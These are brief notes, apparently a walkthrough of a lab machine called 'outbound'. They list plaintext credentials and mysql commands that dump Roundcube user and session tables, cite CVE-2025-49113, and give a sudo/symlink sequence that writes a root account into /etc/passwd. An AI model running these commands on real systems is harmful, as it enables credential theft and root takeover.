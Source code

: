 10.10.11.77


users
tyler 
mel
jacob

passwords

LhKL1o9Nm3X2
gY4Wr3a1evp4

## CVE-2025-49113
exploited using msfconsole

mysql creds found 
mysql table


```sql
 mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e 'use roundcube;select * from users;' -E
 ```
 
```shell
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e 'use roundcube;select * from session;' -E
```

## 3DES decrypt

ssh jacob 
gY4Wr3a1evp4


```
sudo -l

Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```


```shell
jacob@outbound:/var/log/below$ echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
jacob@outbound:/var/log/below$ rm error_root.log 
jacob@outbound:/var/log/below$ ln -s /etc/passwd /var/log/below/error_root.log
jacob@outbound:/var/log/below$ sudo /usr/bin/below
jacob@outbound:/var/log/below$ cp root2 error_root.log 
jacob@outbound:/var/log/below$ su root2
```
